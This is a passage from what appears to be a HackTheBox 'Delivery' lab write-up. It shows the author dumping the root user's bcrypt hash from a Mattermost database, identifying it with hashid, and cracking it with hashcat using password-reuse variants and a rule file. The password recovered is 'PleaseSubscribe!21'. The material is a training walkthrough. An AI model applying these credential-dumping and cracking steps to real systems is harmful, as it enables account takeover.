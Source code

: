 ```
MariaDB [mattermost]> select Username,Password,AuthData,AuthService from Users where Username="root";
+----------+--------------------------------------------------------------+----------+-------------+
| Username | Password                                                     | AuthData | AuthService |
+----------+--------------------------------------------------------------+----------+-------------+
| root     | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | NULL     |             |
+----------+--------------------------------------------------------------+----------+-------------+
```

### Cracking root password
Next, we will need to identify the type of hash using ```hashid```. From the output, this is most likely a bcrypt hash with Hashcat mode of 3200

```
┌──(kali㉿kali)-[~]
└─$ hashid -m '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'             1 ⚙
Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```

From the mattermost channel, we can see that there may be password reuse with the variants of "PleaseSubscribe!", and we also know that we can potentially crack these variants using hashcat.

![](https://github.com/joelczk/writeups/blob/main/HTB/Images/Delivery/root_password.png?raw=true)

Before we continue, let's first add the hash into hash.txt

```
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

Afterwards, we will also create a password file containing the "PleaseSubscribe!" text.

Knowing that there might be a password reuse of the same password variants, we will use hashcat to try to crack the hash for variants of "PleaseSubscribe!"

```
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 3200 hash.txt password.txt -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.1.1) starting...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```
